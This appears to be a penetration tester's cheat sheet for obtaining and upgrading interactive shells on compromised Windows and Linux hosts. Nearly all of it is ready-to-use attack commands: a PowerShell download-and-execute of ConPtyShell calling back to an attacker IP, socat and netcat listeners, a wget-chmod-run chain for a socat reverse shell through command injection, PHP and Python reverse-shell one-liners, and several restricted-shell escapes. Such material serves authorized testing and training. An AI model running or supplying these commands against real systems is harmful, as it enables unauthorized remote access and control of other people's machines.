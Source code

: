 # Interactive Shell

## windows interactive reverse powershell

{% embed url="https://github.com/antonioCoco/ConPtyShell" %}

#### Server \(attacker\) Side:

```text
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

#### Client Side \(directly load from git repository\):

```text
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.56.1 3001
```

#### or, if you upload the ps1:

```text
IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell 10.0.0.2 3001
```

#### or download the reverse shell and upload it to target yourself

```text
wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1
IEX(IWR http://192.168.56.1/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.56.1 9999
```

## Linux Interactive Shell

### check $SHELL and $PATH

fix the path problem if you cant access default shells

```text
export PATH=/bin:/usr/bin:$PATH
```



### Using Python & STTY

#### In your current non-interactive reverse shell type:

```text
 python -c 'import pty; pty.spawn("/bin/bash")'
```

#### press Ctrl+z to send the shell to background

#### then in the same terminal type in:

```text
echo $TERM >>> take note of terminal name
stty -a >>> take note of raws and columns numbers
stty raw -echo
fg
```

#### then you will have an empty terminal, type these:

```text
 reset
 export SHELL=bash
 export TERM=xterm-256color  OR export TERM=xterm
stty rows <num> columns <cols>
```



### Using /usr/bin/script

#### in your current non-interactive reverse shell type in:

```text
 /usr/bin/script -qc /bin/bash /dev/null
```

the rest is like the above method, we just use /usr/bin/script if python is not installed



### Using Socat & STTY

attacker:

```text
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

victim:

```text
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If socat isn’t installed, you’re not out of luck. There are standalone binaries that can be downloaded from this awesome Github repo:

{% embed url="https://github.com/andrew-d/static-binaries" %}

With a command injection vuln, it’s possible to download the correct architecture socat binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```text
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## Semi-interactive Spawn & Scape

### ​​rbash scape through SSH

```text
ssh hackNos@<IP-Adress> -t "bash --noprofile"
```

### rbash escape through editors

```text
vi
:set shell=/bin/bash
:shell
```

### escaping rbash – editor

```text
ed
!'/bin/bash'
pwd
```

### escape rbash through reverse shell

```text
nc -lvp 4545
php -r '$sock=fsockopen("ip-address",port);exec("/bin/bash -i <&3 >&3 2>&3");'
```

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip-address",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

### rbash escape Awk

```text
awk 'BEGIN {system("/bin/bash")}'
```

### interpreters

```text
python -c 'import pty; pty.spawn("/bin/sh");'  
python3 -c 'import os; os.system("/bin/bash");'
perl -e 'exec "/bin/sh";'
ruby -e ‘exec "/bin/sh"’
lua -e 'os.execute('/bin/sh')'
```

### rbash bypass through binary file

```text
less anyfile.txt
!'bash'
```

### shell

```text
/usr/bin/script -qc /bin/bash /dev/null
echo os.system('/bin/bash')
/bin/sh -i
exec "/bin/sh"
```

### ​​within nmap

```text
!sh
```

### rlwrap for Making the Shell Semi-interactive

```text
# use with netcat or other shells
rlwrap nc -nvlp 1234
```

### in meterpreter

```text
execute -f cmd.exe -H -c -i
```





